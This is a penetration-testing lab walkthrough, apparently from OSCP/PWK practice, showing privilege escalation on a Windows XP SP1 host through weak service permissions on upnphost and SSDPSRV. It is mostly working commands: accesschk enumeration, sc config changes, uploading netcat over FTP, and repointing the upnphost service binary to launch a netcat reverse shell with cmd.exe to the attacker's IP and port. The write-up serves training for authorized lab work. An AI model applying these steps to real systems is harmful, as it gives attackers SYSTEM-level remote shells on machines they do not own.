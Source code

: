 Privilege Escalation

1. Follow the method for exploiting Win XP SP1 from [fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html) and [sohvaxus](https://sohvaxus.github.io/content/winxp-sp1-privesc.html). Specifically for this box, I used sohvaxus.

2. Download Accesschk.exe and eula from here.
`https://xor.cat/assets/other/Accesschk.zip`
On attack machine, these files are located at `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/accesschk`
![71527c50ecddeb52c93e350ed1c28c1f.png](../../../_resources/7026d217696f48679b480fe61c8ff594.png)

3. Transfer accesschk.exe and Eula.txt to the target via ftp. **Ensure you download in binary mode**
![b2c4d7c9cacafb42f5423a0c56b12399.png](../../../_resources/5d77e3a9d74e40b9ac21add728efeaed.png)

4. On the target, Go to the directory where it was loaded and then query vulnerable services we can exploit.
`accesschk.exe /accepteula -uwcqv "Authenticated Users" *`
![2d8a03f5ae7a6823b646d51c796d6cb6.png](../../../_resources/2ebe3da4cbcb4d2297c1c42c50437012.png)

5. View the SSDPSRV service
`accesschk.exe /accepteula -ucqv SSDPSRV`
![1a9f53a99SSDPSRV service
a6911e0f625fdf25215567.png](../../../_resources/3a0d730f372f45f9a7ed07d794a7958f.png)

6. View the upnup host
`accesschk.exe /accepteula -ucqv upnphost`
![6e9f8f4457ad849480fdb1cdb29bfd98.png](../../../_resources/a3f82febd59d4464a256bdbae9760931.png)

7. Check the parameters upnup. You'll see that it has a dependency on  SSDPSRV
`sc qc upnphost`
**Screenshot is missing**

8. Check the parameters for SSDPSRV. Notice that it is disabled.
`sc qc SSDPSRV`
![008771297bf4268db164aa1f0bd38c2c.png](../../../_resources/67d1c722b0d642bf81793b9281a2c815.png)

9. Query status for SSDPSRV
`sc query SSDPSRV`
![b093e2def6e743007d7013cdf051ad36.png](../../../_resources/21c7d15a1cd44c07b96149081857b2be.png)

10. Attempt to start the SSDPSRV service
`net start SSDPSRV`
![4f33eccea5646728efb11392ec7243f5.png](../../../_resources/221a9330b1714a73a71194b1d9559d18.png)

11. Set SSDPSRV to AUTOMATIC/ **Be sure to follow the syntax which shows that there is a single space between '=' and 'auto'**
`sc config SSDPSRV start= auto`
![89db5ef8c170df2bf00fcaaea5223ad0.png](../../../_resources/c4d5c0c3cdbc402bbd18a96019417ee2.png)

12. Double check that SSDPSRV is set to automatic
`sc qc SSDPSRV`
![ebb96f83a87129a25adcc4eaaf3b9907.png](../../../_resources/3abcc51507ed40dd834c6b41be5b3376.png)

13. Try again to start SSDPSRV
`net start SSDPSRV`
![9144f354bcb2b81042102df424f61de5.png](../../../_resources/764310a094384938894f44398ca7e70d.png)

14. Download netcat from here. I used the 1.12 version
`https://eternallybored.org/misc/netcat/`
On attack machine, it is located at: `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/netcat`
![f9271a36eb375d961d9bc3de332d29f3.png](../../../_resources/a3a324b1de0b4dd3a95b8e2bba972100.png)

15. Upload nc.exe to your target via FTP. **Ensure it is in binary mode**
![46f2c85b704eae726afdad8afff6a554.png](../../../_resources/38c4d3b6c83440e8bdc85cd1a49e151e.png)

16. Verify the path where nc.exe is located on the target. In this case: `C:\Inetpub\nc.exe`
![7dd83231d712b3567dcf7a68bb5661fe.png](../../../_resources/198938cd711045f68ad7895a4ea5ab3d.png)

17. Set a new binary path for netcat
`sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 192.168.119.214 6789 -e C:\WINDOWS\System32\cmd.exe"`
![ca19c73880f110123e688784ccc414b9.png](../../../_resources/f57ba7209e86454ca0d1400364d24c79.png)

18. Set object and password
`sc config upnphost obj= ".\LocalSystem" password= ""`
![9ce6aa2d0b513b72ba85dde6bb265263.png](../../../_resources/142cd89be25a4cacae5d77660353c44c.png)

19. Set a netcat listener on attack machine
`sudo nc -lvnp 6789`
![f0de3b4e82698588e2224b05e44d5ce5.png](../../../_resources/a767ebec0c3d46daa1e3ec1005d55009.png)

20. Check again that everything is fine
`sc qc upnphost`
![fc678f3f4d9a7efd4b0337ad200aae73.png](../../../_resources/4676556a25e74095ae58b79eecd9d480.png)

21. Run upnphost, you'll see that you have system on the netcat listener port 6789. You'll have 30 seconds to get the proof.txt
`net start upnphost`
![f779a950a57533c9206a323a171f6937.png](../../../_resources/80e8faae4608439da038bf4b80724b8e.png)
